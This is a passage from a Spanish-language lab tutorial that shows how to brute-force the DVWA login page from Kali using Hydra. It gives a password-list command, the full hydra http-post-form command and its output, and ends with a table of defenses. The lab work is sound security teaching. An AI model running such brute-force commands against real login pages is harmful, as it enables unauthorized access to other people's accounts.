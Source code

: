 DVWA debe estar accesible desde Kali, por ejemplo en:

```
http://192.168.1.105/dvwa/login.php
```

---

#### Paso 2: Asegúrate de que DVWA esté en modo "LOW" de seguridad

Ve a la página DVWA ➜ "DVWA Security" ➜ selecciona `Low`.

---

#### Paso 3: Crear un archivo con contraseñas comunes

```bash
echo -e "admin\n123456\npassword\ntest\nadmin123" > passwords.txt
```

---

#### Paso 4: Usar Hydra para hacer el ataque de fuerza bruta

```bash
hydra -l admin -P passwords.txt 192.168.1.105 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

---

#### Resultado esperado:

```
[80][http-post-form] host: 192.168.1.105   login: admin   password: password
```

> Esto significa que encontró una contraseña válida (`password`) para el usuario `admin`.

---

### 🧠 ¿Qué aprendiste con este ejemplo?

- Simulaste un ataque real de fuerza bruta **sin dañar a nadie**.
- Usaste herramientas reales como **Hydra** y **DVWA**.
- Entendiste cómo un atacante puede probar miles de contraseñas.

---

### 🛡️ ¿Cómo protegerte de estos ataques?

| Ataque        | Defensa recomendada                               |
| ------------- | ------------------------------------------------- |
| Phishing      | No hacer clic en correos sospechosos.             |
| Malware       | Usar antivirus y no abrir adjuntos desconocidos.  |
| Brute Force   | Usar contraseñas fuertes y límites de intentos.   |
| SQL Injection | Validar entradas y usar consultas preparadas.     |
| DDoS          | Usar firewalls, balanceadores y mitigadores.      |
| XSS           | Escapar y sanitizar entradas en formularios.      |
| MITM          | Usar HTTPS y evitar redes Wi-Fi públicas sin VPN. |

---